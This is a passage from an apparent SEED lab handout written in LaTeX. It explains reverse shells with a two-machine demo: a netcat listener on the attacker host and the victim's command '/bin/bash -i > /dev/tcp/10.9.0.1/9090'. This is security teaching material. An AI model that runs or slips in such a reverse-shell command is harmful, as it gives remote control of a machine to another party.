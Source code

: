To have a \texttt{bash} shell on a remote machine connect back to the attacker's machine, the
attacker needs a process waiting for some connection on a given port. In this example, we will
use \texttt{netcat}. This program allows us to specify a port
number and can listen for a connection on that port.
In the following demo, we show two windows, each one is from a 
different machine. The top window is the attack machine \texttt{10.9.0.1},  
which runs \texttt{netcat}~(\texttt{nc} for short), listening on port \texttt{9090}. 
The bottom window is the victim machine \texttt{10.9.0.5}, and 
we type the reverse shell command.
As soon as the reverse shell gets executed, the top window indicates 
that we get a shell. This is a reverse shell, i.e., it runs on \texttt{10.9.0.5}.  

\begin{minipage}{\linewidth}
\begin{lstlisting}[backgroundcolor=]
           +---------------------------------------------------+ 
           | (*@\textbf{On 10.9.0.1 (attcker)}@*)                             |
           |                                                   | 
           | $ nc -lnv 9090                                    |  
           | Listening on 0.0.0.0 9090                         |  
           | Connection received on 10.9.0.5 49382             |  
           | $   <--+ (*@\textbf{This shell runs on 10.9.0.5}@*)              | 
           |                                                   |  
           +---------------------------------------------------+  
          
           +---------------------------------------------------+  
           | (*@\textbf{On 10.9.0.5 (victim)}@*)                              |
           |                                                   | 
           |$ /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1  | 
           |                                                   | 
           +---------------------------------------------------+
\end{lstlisting}
\end{minipage}

We provide a brief description on the reverse shell command in the following.
Detailed explanation can be found in the SEED book.

